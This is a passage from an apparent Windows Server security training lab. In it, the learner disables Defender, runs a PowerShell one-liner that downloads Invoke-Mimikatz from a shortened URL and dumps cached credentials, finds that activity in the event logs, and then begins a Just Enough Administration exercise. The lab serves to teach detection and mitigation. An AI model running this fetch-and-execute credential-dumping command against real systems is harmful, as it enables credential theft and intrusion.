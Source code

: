   > **Note:**  This will disable Real Time Protection of Windows Defender. 

9.   From the **Administrator: Windows PowerShell** window, run the following:

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds
```

  > **Note:**  The exploit this time succeeded, providing the listing of cached credentials, including the NTLM password hash of the **ADATUM\\Administrator** user account. 

  > **Note:**  Obviously, as a member of the local Administrators group, you could have applied the same approach and disable Windows Defender Real Time Protection on the Windows 10 computer, however, this would not give you access to the NTLM password hash of the **ADATUM\\Administrator** user account. 

10.   While the exploit succeeded, the corresponding actions were recorded in Windows PowerShell Operational log on LON-SVR1. To verify that, switch to LON-SVR1 where you are signed in as **ADATUM\\Administrator**. 
11.   While signed in to LON-SVR1 as **ADATUM\\Administrator**, right-click **Start** and click **Event Viewer**.
12.   In the **Event Viewer** window, expand the **Applications and Services\\Microsoft\\Windows\\PowerShell** folder and click the entry representing the Operational log.
13.   In the list of events in the Operational log, locate the most recent events with **ID 4104** and examine their content. 
14.   Locate the event that includes a reference to the script block `IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('LON-SVR1')`.

  > **Note:**  You could also mitigate the threat of a Pass-the-Hash attack in an Active Directory environment by implementing such features as Protected Groups, Authentication Policies, and Authentication Silos. For more information regarding these topics, refer to https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts and https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/authentication-policies-and-authentication-policy-silos


> **Result**: After completing this exercise, you will have attempted Windows PowerShell-based attacks against Windows 10 and Windows Server 2016 computers.


## Exercise 3: Implement Just Enough Administration

In this exercise, you will implement Just Enough Administration (JEA) to restrict range of tasks that can be performed via a designated Windows PowerShell Remoting endpoint. The main tasks for this exercise are as follows:
1.   Create a JEA role capabilities file
2.   Create and register JEA session configuration file
3.   Test JEA


#### Task 1: Create a JEA role capabilities file

1.   Make sure that you are signed in to the LON-SVR1 Windows Server 2016 lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Administrator**
  -   PASSWORD: **Pa55w.rd**

